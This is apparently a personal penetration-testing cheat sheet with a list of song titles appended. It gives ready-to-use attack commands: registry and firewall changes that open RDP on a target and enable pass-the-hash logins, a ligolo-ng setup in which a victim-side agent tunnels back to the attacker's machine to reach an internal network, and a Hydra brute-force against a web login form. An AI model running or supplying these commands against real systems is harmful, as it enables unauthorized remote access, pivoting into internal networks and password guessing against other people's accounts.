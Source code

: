 Enable RDP
```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
```

# ligolo - https://github.com/nicocha30/ligolo-ng
```
## Compiling
- Use the CGO_ENABLED=0 flag when building because of issues with glibc

Public network: 192.168.211.x
Internal Network: 172.16.211.x
## On Kali:
- sudo ip tuntap add user kali mode tun ligolo
- sudo ip link set ligolo up
- sudo ./proxy -selfcert

## On victim [linux]: 
- ./agent -connect 192.168.45.195:11601 -ignore-cert

## On Kali:
- sudo ip route add 172.16.211.0/24 dev ligolo
```
# Hydra
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.233.134 http-post-form "/login.php:username=admin&password=^PASS^&Submit=Login:Incorrect information"
```
- username is case sensitive...

# Tar - Encrypt / Decrypt
```
tar czvpf - ./[encdir] | gpg --symmetric --no-symkey-cache --cipher-algo aes256 -o [filename].tar.gz.gpg

gpg -d [decryptfilename] | tar -xvzf -
```



Blood // Water - Grandson
Letting you go  - bfmv
Moving on - Asking Alexandria
Limits - Bad Omens
Just pretend - 
Choke - The Warning
Deafening - Solence
Neon Grave - Dayseeker
Nero Forte - Slipknot
Crooked Halos - Dragged Under
Polyamorous - Breaking Benjamin
Room to Breathe - You me at six